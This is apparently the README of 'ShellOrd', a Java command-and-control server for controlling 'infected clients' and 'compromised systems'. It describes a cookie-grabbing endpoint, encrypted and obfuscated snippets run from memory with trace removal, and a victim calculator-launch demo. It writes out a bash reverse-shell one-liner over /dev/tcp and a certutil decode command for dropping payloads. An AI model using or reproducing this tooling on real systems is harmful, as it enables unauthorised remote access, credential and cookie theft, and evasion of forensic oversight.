 🐚 ShellOrd Server Cross-Platform written in Java

- Plugins: A collection of plugins. (.jar or .py). 

## Requirements

- Python plugins requires Jython Standalone 2.7.3.
- ShellOrd Server requires Java 17+.
- Import Certificates in format PKCS12 (.p12) to enable SSL or HTTPS.

## Web server - Login

![shellord-login](../_img/shellord-login.gif)

### Bypass localhost + capture requests

https://shellord.mibaltoalex.com:60443

shellord.mibaltoalex.com => 127.0.0.1

### Grabber requests (GET / POST)

https://shellord.mibaltoalex.com:60443/grabber/info?cookie=captured

`2022-03-12 11:08:20.842 SHELLORD::grabber: Request captured: 'Host: 127.0.0.1 ; GET /info?cookie=captured'`

## Snippets

All snippets are packed, compressed and encrypted in `.mar` (MAR; MIBALTOALEX ARchive) files.
A snippet can contain URIs, binary code, scripts (bash, powershell, etc) and plain text (.c, .py, .java, .rs, .sh, .rb, .bat, .txt, ...).

Allows you to run any obfuscated snippet on the infected client. You can also run any obfuscated snippet from memory to the client in paranoid mode and remove traces.

Example to use parameters in snippets: 
```bash
# bash
bash -c 'exec bash -i &>/dev/tcp/~[[rhost]]/~[[rport]] <&1'
```
```powershell
# powershell
certutil -decode ~[[file_input]] ~[[file_output]]
```

## Shell

Includes commands to configure SHELLORD.

![shellord-cmd-config](../_img/shellord-cmd-config.jpg)

Note: Deprecated old mode

## Terminal

Management of compromised systems from the terminal or attack map.

![shellord-extensions](../_img/shellord_terminal.jpg)

## Themes

Includes dark and light theme.

![shellord-extensions](../_img/shellord-theme.jpg)

## Modules

An improved module system.

![shellord-extensions](../_img/shellord_new_ui.jpg)

## Extensions

Includes extensions.

![shellord-extension-demo](../_img/shellord_extension_demo.jpg)

### API

Now allows to set metadata both in code and in annotations

![shellord-metadata](../_img/shellord-metadata.jpg)

### Menu de rutas

Includes menu with custom routes.

![shellord-menu](../_img/shellord-menu.jpg)

### Example

Example launch calculator on victim (Windows)

![shellord-calc](../_img/shellord_calc.gif)

## Utils

- JVM Reverse Engineering

